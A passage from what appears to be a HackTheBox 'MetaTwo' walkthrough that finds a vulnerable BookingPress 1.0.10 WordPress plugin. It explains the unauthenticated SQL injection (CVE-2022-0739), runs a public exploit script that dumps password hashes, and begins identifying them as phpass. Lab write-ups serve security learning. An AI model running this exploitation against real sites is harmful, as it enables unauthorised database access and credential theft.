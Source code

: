 		 | Version: 1.0.10 (100% confidence)
		 | Found By: Readme - Stable Tag (Aggressive Detection)
		 |  - http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt
		 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
		 |  - http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt
		```
		> Potentially vulnerable plugin
		> - `bookingpress-appointment-booking` - `1.0.10`
		{: .prompt-info}
		
## TCP/80 (HTTP) - WP Booking Press 1.0.10 Plugin SQLi
1. Search exploits for `bookingpress-appointment-booking` - `1.0.10`
	> [Chris01s](https://github.com/Chris01s)/**[CVE-2022-0739](https://github.com/Chris01s/CVE-2022-0739)**
	{: .prompt-info}
2. How do we exploit `bookingpress-appointment-booking` - `1.0.10`
	> Due to **improper user input sanitization** in the `POST` data, before it is used in a dynamically constructed SQL query via the `bookingpress_front_get_category_services` (available to unauthenticated user), leading to an unauthenticated SQL injection.
	{: .prompt-info}
3. Try [Chris01s](https://github.com/Chris01s)/**[CVE-2022-0739](https://github.com/Chris01s/CVE-2022-0739)**
	1. We have to find out the URL where the booking press application is in use.
		![]({{ page.img_path }}Pasted%20image%2020221120123123.png)
		>- `http://metapress.htb/events/`
		{: .prompt-info}
	2. Run exploit
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# bash exploit.sh http://metapress.htb/events/ | tail -n 3 | cut -d " " -f2 | tee hash
		$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
		$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
		```
4. Identify hashing alogrithm w/ `nth`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# nth --file hash
	
	$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
	
	Most Likely
	Wordpress ≥ v2.6.2, HC: 400 JtR: phpass
	Joomla ≥ v2.5.18, HC: 400 JtR: phpass
	PHPass' Portable Hash, HC: 400 JtR: phpass
	
	
	$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
	No hashes found.
	```
	> Why is 2nd hash invalid ?
	> - 2nd hash is invalid because `\` is used to escape `/`, we have to remove the escape character, so that it is a valid hash.
	{: .prompt-info}
5. Identify hashing alogrithm again
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# nth --file hash
	$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
	